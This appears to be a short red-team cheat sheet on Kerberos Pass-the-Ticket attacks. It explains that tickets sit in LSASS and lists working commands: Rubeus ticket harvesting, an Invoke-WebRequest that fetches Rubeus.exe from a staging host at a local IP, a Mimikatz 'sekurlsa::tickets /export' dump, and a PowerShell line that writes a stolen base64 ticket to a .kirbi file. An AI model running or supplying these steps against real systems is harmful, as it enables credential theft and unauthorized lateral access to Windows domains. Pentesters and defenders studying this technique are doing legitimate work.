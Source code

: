 # Pass The Ticket (Ticket Dump)
Don't create tickets, steal them from cache! With Pass-the-Ticket attacks, a threat actor won’t be forging Kerberos tickets. Instead, they will steal valid tickets that have already been created and issued, and pass them from one system to another in order to access resources as a legitimate, privileged user. 

The TGT and STs are located in the LSASS (Local Security Authority Subsystem Service)

User privilege: get TGT and TSs from user on system
Admin privilege: get all TGTs and TGs from all users on system

Requirements:
* Access to a machine

---

`Rubeus.exe harvest /interval:30`


Invoke-WebRequest -Uri "192.168.178.137:8000/Rubeus.exe" -OutFile "C:\Users\Administrator\Desktop"

User can request owned tickets, admin can request all.
`Mimikatz`
	sekurlsa::tickets /export
	exit
`\[IO.File\]::WriteAllBytes("ticket.kirbi", \[Convert\]::FromBase64String("<BASE64\_TICKET>"))`